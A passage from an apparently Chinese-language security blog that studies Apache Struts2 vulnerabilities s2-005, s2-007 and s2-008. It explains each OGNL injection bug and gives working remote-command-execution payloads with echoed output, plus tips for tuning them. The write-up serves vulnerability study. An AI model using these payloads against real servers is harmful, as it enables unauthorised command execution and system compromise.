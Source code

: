 请求的 GET 参数会通过 OGNL 表达式被解析为 Java 语句。在 s2-003 中可以使用 `\u0023` 来绕过对 `#` 的过滤，而在修复中开启的安全配置可以被 OGNL 表达式关闭，然后再利用 s2-003 的 payload 攻击。这就是 s2-005。

网上大部分 PoC 都是无回显的，这里放一个带回显的 PoC：

```java
/example/HelloWorld.action?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(bla)(bla)&('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)&('\u0023mycmd\u003d\'id\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))
```

![图 2](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Struts2/2.png)

## s2-007

[参考](https://xz.aliyun.com/t/2684)

影响版本：2.0.0 - 2.2.3

配置验证规则后，类型转换出错时进行了错误的字符串拼接，从而可以执行 OGNL 表达式。这里的原理和 SQL 注入类似。

```
'+ (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

![图 3](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Struts2/3.png)

## s2-008

[参考](https://blog.csdn.net/god_zzZ/article/details/94398559)

影响版本：2.1.0 - 2.3.1

比较鸡肋的漏洞，开启 devMode 后（默认关闭）直接利用调试接口执行 OGNL 表达式。

```java
debug=command&expression=(%23_memberAccess.allowStaticMethodAccess=true,%23context["xwork.MethodAccessor.denyMethodExecution"]=false,%23cmd="id",%23ret=@java.lang.Runtime@getRuntime().exec(%23cmd),%23data=new+java.io.DataInputStream(%23ret.getInputStream()),%23res=new+byte[38],%23data.readFully(%23res),%23echo=new+java.lang.String(%23res),%23out=@org.apache.struts2.ServletActionContext@getResponse(),%23out.getWriter().println(%23echo))
```

这里需要注意，PoC 中 `#res=new byte[n]` 的 `n` **不能超过命令执行结果的长度**，否则就会直接回显 `null`。上面是根据 `id` 结果的长度粗略选取的数字 `38` 。

## s2-009
